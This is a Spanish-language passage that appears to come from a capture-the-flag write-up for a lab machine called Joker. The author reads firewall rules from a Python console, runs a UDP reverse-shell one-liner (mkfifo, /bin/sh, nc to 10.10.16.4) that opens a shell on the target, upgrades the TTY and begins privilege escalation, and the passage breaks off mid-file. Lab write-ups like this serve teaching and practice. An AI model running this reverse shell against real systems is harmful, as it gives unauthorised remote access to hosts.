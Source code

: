 No tengo conectividad con mi equipo. Puedo leer el archivo de configuración de ```iptables```

```null
>>> with open('/etc/iptables/rules.v4', 'r') as f: print(f.read())
# Generated by iptables-save v1.6.0 on Fri May 19 18:01:16 2017
*filter
:INPUT DROP [41573:1829596]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [878:221932]
-A INPUT -i ens33 -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -i ens33 -p tcp -m tcp --dport 3128 -j ACCEPT
-A INPUT -i ens33 -p udp -j ACCEPT
-A INPUT -i ens33 -p icmp -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP
COMMIT
# Completed on Fri May 19 18:01:16 2017
```

Me envío una reverse shell por UDP

```null
>>> import os
>>> os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 1234 -u > /tmp/f &")
```

Gano acceso al sistema como ```wekzeug```

```null
nc -nlvp 1234 -u
listening on [any] 1234 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.21] 33888
/bin/sh: 0: can't access tty; job control turned off
$ whoami
werkzeug
$ script /dev/null -c bash
Script started, file is /dev/null
werkzeug@joker:~$ ^Z
zsh: suspended  nc -nlvp 1234 -u
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 1234 -u
                                  reset xterm
werkzeug@joker:~$ export TERM=xterm
werkzeug@joker:~$ export SHELL=bash
werkzeug@joker:~$ stty rows 55 columns 209
```

# Escalada

Un archivo de python incluye una base de datos

```null
werkzeug@joker:~$ cat manage-shorty.py 
#!/usr/bin/env python

import os
import tempfile
import netifaces
from werkzeug import script

def make_app():
    from shorty.application import Shorty
    filename = "/var/www/shorty/data/shorty.db"
    return Shorty('sqlite:///{0}'.format(filename))

def make_shell():
```